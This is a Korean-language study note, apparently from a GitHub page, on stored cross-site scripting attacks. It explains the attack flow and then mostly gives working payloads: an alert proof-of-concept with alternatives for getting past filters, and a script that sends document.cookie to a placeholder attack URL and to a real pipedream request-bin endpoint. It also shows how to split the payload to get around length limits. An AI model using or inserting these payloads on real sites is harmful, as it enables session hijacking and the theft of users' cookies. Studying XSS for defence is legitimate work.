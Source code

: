 # Stored  XSS
## 저장형 XSS(Stored Cross Site Scripting)   
저장형 XSS 공격은 보안이 취약한 서버에 악의적인 사용자가 악성 스크립트를 저장함으로써 발생한다.    
비정상적인 방법이 아니라 서버에서 제공하는 게시판, 사용자 프로필에 악의적으로 동작하는 스크립트가 그대로 저장된 후 클라이언트의 브라우저로 전달되어 문제가 발생한다.   

```
1. 보안이 취약한 사이트에서 제공하는 게시판에 사용자 정보를 빼돌릴 수 있는 스크립트를 작성하여 올린다.

2. 일반 사용자는 악의적인 사용자가 작성한 게시글을 읽으면, 서버로부터 악성 스크립트가 담긴 게시글 응답을 전달받는다.

3. 일반 사용자의 브라우저에서 응답 메세지를 실행하면서 악성 스크립트가 실행된다.

4. 악성 스크립트를 통해 사용자 정보가 악의적인 사용자에게 전달된다.
```
</br>
</br>
</br>

# 방법
POC 코드
```
POC코드로 XSS 공격이 가능한지 확인.


<script>alert()</script>   = POC 코드. 증명용 코드.   

만약 alert를 필터링했다고 하면?    
alert()    
confirm()    
prompt()    
location.herf=''
등등 

굉장히 많음.
```
</br>

cookie를 가져오는 Javascript 코드 예시
```
<script>var i = new Image();i.src = "attack URL?cookie=" + document.cookie </script>
```
</br>

임시 서버 ("attack URL?cookie=")
```
session 탈취를 테스트할 수 있는 공격용 사이트.   
Request Bin   
https://public.requestbin.com/r

https://enideg1fqsaaa.x.pipedream.net 이것은 나의 임시서버.   
위 url로 session 탈취 코드를 넣어서 실행하면 requestbin 사이트에서 나옴.
```
</br>

입력 코드
```
<script>var i = new Image();i.src = "https://enideg1fqsaaa.x.pipedream.net?cookie=" + document.cookie;</script>
```
</br>

만약 길이 제한이 걸렸다면?
```
<script>var i = new Image();</script>
<script>i.src = "attack URL?cookie=" + document.cookie;</script>

나누어서 입력 가능
```

step 1. alert() 를 먼저 띄운다. -> POC코드이기 때문에.   
step 2. 공격 코드를 넣는다. session id    

만약에 안된다? F12 -> Console -> 빨간색 에러가 떠있을 확률이 높음.

